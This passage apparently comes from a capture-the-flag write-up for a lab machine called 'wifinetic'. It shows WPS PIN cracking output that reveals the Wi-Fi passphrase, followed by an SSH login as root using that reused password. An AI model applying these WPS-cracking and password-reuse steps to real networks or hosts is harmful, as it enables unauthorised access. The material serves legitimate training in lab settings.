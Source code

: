 ```
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 2 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.

```

Since the admin reused previous wireless passwords, I tried it on the root account and successfully gained access.
```
[zonifer@dell wifinetic]$ ssh root@10.10.11.247
root@10.10.11.247's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 15 Sep 2023 05:53:06 AM UTC

  System load:            0.0
  Usage of /:             68.7% of 4.76GB
  Memory usage:           12%
  Swap usage:             0%
  Processes:              233
  Users logged in:        1
  IPv4 address for eth0:  10.10.11.247
  IPv6 address for eth0:  dead:beef::250:56ff:feb9:d30e
  IPv4 address for wlan0: 192.168.1.1
  IPv4 address for wlan1: 192.168.1.23


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Sep 12 12:07:58 2023
root@wifinetic:~# 
```
